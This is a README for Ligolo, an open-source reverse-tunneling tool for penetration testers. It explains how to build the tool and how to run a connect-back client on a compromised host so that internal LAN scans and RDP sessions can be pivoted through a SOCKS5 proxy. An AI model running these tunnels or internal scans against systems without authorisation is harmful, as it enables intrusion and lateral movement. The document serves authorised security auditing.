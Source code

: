 # Ligolo : Reverse Tunneling made easy for pentesters, by pentesters

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Table of Contents

- [Introduction](#introduction)
- [Use case](#use-case)
- [Quick Demo](#quick-demo)
- [Performance](#performance)
- [Usage](#usage)
  - [Setup / Compiling](#setup--compiling)
  - [How to use?](#how-to-use)
  - [TL;DR](#tldr)
  - [Options](#options)
- [Features](#features)
- [To Do](#to-do)
- [Licensing](#licensing)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Introduction

**Ligolo** is a *simple* and *lightweight* tool for establishing *SOCKS5* or *TCP* tunnels from a reverse connection in complete safety (TLS certificate with elliptical curve).

It is comparable to *Meterpreter* with *Autoroute + Socks4a*, but more stable and faster.

## Use case

You compromised a Windows / Linux / Mac server during your external audit. This server is located inside a LAN network and
you want to establish connections to other machines on this network.

**Ligolo** can setup a tunnel to access internal server's resources.

## Quick Demo

Relay of a RDP connection using Proxychains (WAN).

![RDP](img/rdesktop_example.gif)

## Performance

Here is a screenshot of a speedtest between two 100mb/s hosts (ligolo / localrelay). Performance may vary depending on the system and network configuration.

![Speedtest](img/speedtest.png)

## Usage

### Setup / Compiling

Make sure *Go* is installed and working.

1. Get Ligolo and dependencies

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Generate self-signed TLS certificates (will be placed in the *certs* folder)

```
make certs TLS_HOST=example.com
```

NOTE: You can also use your own certificates by using the `TLS_CERT` make option when calling *build*. Example: `make build-all TLS_CERT=certs/mycert.pem`.

3. Build

* 3.1. For all architectures

```
make build-all
```

* 3.2. (or) For the current architecture

```
make build
```

### How to use?

*Ligolo* consists of two modules:

- localrelay
- ligolo

*Localrelay* is intended to be launched on the control server (the attacker server).

*Ligolo* is the program to run on the target computer.

For *localrelay*, you can leave the default options. It will listen on every interface on port 5555 and wait for connections from *ligolo* (`-relayserver` parameter).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

You can use the `-h` option for help.

Once the connection has been established between *Ligolo* and *LocalRelay*, a *SOCKS5* proxy will be set up on TCP port `1080` on the relay server (you can change the TCP address/port using the *-localserver* option).

After that, all you have to do is use your favorite tool (Proxychains for example), and explore the client's LAN network.

### TL;DR

On your attack server.

```
./bin/localrelay_linux_amd64
```

On the compromise host.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Once the connection is established, set the following parameters on the ProxyChains config file (On the attack server):

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Options

*Localrelay* options:

```
Usage of localrelay:
  -certfile string
    	The TLS server certificate (default "certs/server.crt")
  -keyfile string
    	The TLS server key (default "certs/server.key")
  -localserver string
    	The local server address (your proxychains parameter) (default "127.0.0.1:1080")
  -relayserver string
    	The relay server listening address (the connect-back address) (default "0.0.0.0:5555")
```

*Ligolo* options:

```
Usage of ligolo:
  -autorestart
    	Attempt to reconnect in case of an exception
  -relayserver string
    	The relay server (the connect-back address) (default "127.0.0.1:5555")
  -skipverify
    	Skip TLS certificate pinning verification
  -targetserver string
    	The destination server (a RDP client, SSH server, etc.) - when not specified, Ligolo starts a socks5 proxy server
```

## Features

- TLS 1.3 tunnel with TLS pinning
- Multiplatforms (Windows / Linux / Mac / ...)
- Multiplexing (1 TCP connection for all flows)
- SOCKS5 proxy or simple relay

## To Do

- Better timeout handling
- SOCKS5 UDP support
- Implement mTLS

## Licensing

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
